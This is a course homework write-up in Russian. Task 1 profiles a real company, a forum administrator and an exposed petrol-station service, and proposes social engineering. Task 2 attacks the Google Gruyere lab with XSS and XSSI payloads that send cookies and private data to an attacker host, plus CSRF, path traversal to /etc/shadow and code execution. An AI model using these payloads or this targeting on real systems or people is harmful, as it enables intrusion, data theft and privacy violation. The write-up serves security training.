 # «Penetration Testing. Часть 1»

[Задание](https://github.com/netology-code/ibdef-homeworks/tree/master/06_pentest)


## Задание 1

Целью для поисков выбрал компанию-производителя, продуктами которой я пользуюсь каждый день, для работы.
Называются они "Автоматика плюс"

[Их сайт](http://www.automatikaplus.ru/default.aspx)

Решил найти IP адрес их сайта, ```nslookup www.automatikaplus.ru ```, получаю ```188.225.36.85```. В гугле нахожу информацию, что это хостинг из Санкт-Петербурга, значит сервер стоит не у них, а они пользуются хостингом (физически они находятся в Пензе).
С помощью shodan посмотрел, что сервер на Windows, там открыт 443 порт и лежит сертификат, который не доступен , если просто заходить на сайт, так же открыты RDP, VNC сервисы для управления этим сервером. 

На сайте есть ссылка на форум. Решил поискать администраторов форума. loginov_d - один из самых активных участников форума, просто гуглю его ник. Нахожу его [личный сайт](http://www.loginovprojects.ru/index.php?page=simple). Сайт хостится на том же IP, что и основной сайт автоматики. На его личном сайте есть комментарии, где с 2005 года с ним разговаривают его друзья и видимо одногруппники, студенты. Можно использовать их email, так как они в открытом виде там лежат и использовать социальную инженерию, направив её на администратора. 

<details>
  <summary>**Тут дополнительно, не очень применимо к самой автоматике**</summary>
  
Так как я работаю с их продуктом, знаю о уязвимости "из первых рук". Проблема в мисконфигурации, если не указать отдельно пароль администратора одного из сервисов, он доступен (неявно) из интернета. т.е. если люди не пользуются этим сервисом, либо не знают о нем и не указывают пароль по этим причинам - можно получить доступ ко ВСЕМ транзакциям с контрагентами. Решил проверить, есть ли где-то такой личный кабинет. 

![data/OUPS.png](data/OUPS.png)

Доступно 4 кабинета, у первого, если после адреса написать /azs/ (это доступ к веб сервису не для клиентов) нет пароля администратора. Проверять, есть ли там транзакции не стал, на всякий случай. 
IP принадлежит Братску. В Братске не так много заправок. 

![data/map.png](data/map.png)
У крупных брендовых заправок не может быть именно этого сервиса, остались "братский бензин" и "илим-роско". У первых есть этот сервис. Ребят предупредил, вдруг им интересно. 

![data/предупредил.png](data/предупредил.png)

</details>

В ходе проделанной работы я нашел мало данных, связанных с самой организацией, но думаю всю эту информацию можно использовать совместно с социальной инженерией, чтобы получить другую информацию, полезную для пентеста. 

## Задание 2

### XSS

Находится автоматически с помощью OWASP ZAP.

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```

Немного изменяю ссылку, чтобы вместо 1, нам выводились на экран cookie:
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%28document.cookie%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
Результат:
![data/Screenshot from 2023-01-06 20-47-47.png](data/Screenshot from 2023-01-06 20-47-47.png)
Как реализовать эту атаку в реальной жизни: 
1) Немного изменяем ссылку, чтобы вместо алерта, сервер сам отправлял нам информацию (с помощью функции fetch)
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Efetch(%27http://10.10.58.248:9001?cookie=%27%2Bbtoa%28document.cookie%29%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
2) Отправляем ссылку атакуемому.
3) Запускаем на нашем сервере ``` nc -nlvp 9001 ```
4) Когда атакуемый перейдет по ссылке, мы получим файлы cookie.

Результат:

![data/Screenshot from 2023-01-06 22-34-38.png](data/Screenshot from 2023-01-06 22-34-38.png)


### XSRF

Находится автоматически с помощью OWASP ZAP.

Чтобы проэксплуатировать эту уязвимость, нужно заставить атакуемого перейти по ссылкам с другого сайта, из почты и т.д.

Продемонстрирую:

1) Создаём страницу:
```html
<h1>CSRF</h1>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/newsnippet2?snippet=I DONT WANT THIS SNIPPET">Click Me</a>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=0">Delete Me</a>

```
2) Страница

![data/SN1.png](data/SN1.png)

3) Результат добавления текста

![data/SN2.png](data/SN2.png)

4) Результат удаления

![data/SN3.png](data/SN3.png)

### XSSI

В соответствии с [этой статьёй](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), чтобы проэксплуатировать XSSI, нужно проанализировать .js скрипты на атакуемом сайте. На этом сайте все скрипты ссылаются на .../lib.js
Принцип атаки: мы берем другой сайт, ссылаемся в нем на скрипт атакуемого сайта. Следующей строчкой вызываем alert(<тут нужная нам переменная из атакуемого сайта>). Значит нужно проанализировать /lib.js. Я не смог найти в этом скрипте переменных с "небезопасными" значениями. 
Но воспользовался подсказкой и там указано, что существует скрипт feed.gtl. Который содержит "private snippet". 

1) Делаем страницу:

```html
<script>
function _feed(s) {
  alert(s['private_snippet']);
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```

2)  Создаем пользователя atakuemiy. И задаём ему private snippet. 

![data/atakuemiy.png](data/atakuemiy.png)

3) Создаем пользователя attacker, Загружаем страницу из пункта 1. Располагаем её в профиле.
ВЫ
4) Логинимся от пользователя atakuemiy. Видим, что если атакуемый перейдет по ссылке в профиле атакующего, алерт выдаёт private snippet. Следовательно можно алерт заменить на fetch, как в первом пункте и отправить эту информацию куда угодно на сервер атакующего. 

![data/Screenshot from 2023-01-06 23-57-09.png](data/Screenshot from 2023-01-06 23-57-09.png "data/Screenshot from 2023-01-06 23-57-09.png") 

5) Пример:

```html
<script>
function _feed(s) {
  fetch('http://10.10.58.248:9001?snippet='+btoa(s['private_snippet']));
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```
6) Результат:

![data/Screenshot from 2023-01-07 00-17-50.png](data/Screenshot from 2023-01-07 00-17-50.png)

### Path Traversal

Эта атака пытается получить доступ к файлам и папкам, которые находятся вне папок, доступных "легально". На сервер можно загрузить файлы, которые потом доступны по адресу: .../username/file.ext

Я нашел [репозиторий](https://github.com/omurugur/Path_Travelsal_Payload_List/blob/master/Payload/Dp.txt) который содержит пэйлоад для этой атаки, с помощью фьюзера у owasp-zap нахожу, что часть из них работает, например этот:

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

![data/P-T1.png](data/P-T1.png)

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4//..%5C../..%5C../..%5C../..%5C../..%5C../..%5C../etc/shadow
```
![data/P-T2.png](data/P-T2.png)

### Code Execution
Самостоятельно я эту уязвимость найти не смог. Принцип такой, что мы можем либо создать пользователя  ```..``` и загрузить туда файл ```gtl.py```. Либо сразу загрузить файл ```../gtl.py```. Так как сайт подвержен DOS атакам, мы перезапускаем сервер и код из файла ```gtl.py``` выполнится.

Пример:
1) На сайте лежит файлы с расширением .py

![data/Screenshot from 2023-01-07 00-38-31.png](data/Screenshot from 2023-01-07 00-38-31.png)


2) Попробуем создать пользователя .. и загрузить на сервер измененный файл data.py

![data/dotdot.png](data/dotdot.png)

3) Перезагружаем сервер ```https://google-gruyere.appspot.com/632978317648096391885908153107952987817/quitserver```

4) Сервис нам сообщает, что сервер owned и восстанавливает .py файлы

![data/owned.png](data/owned.png)
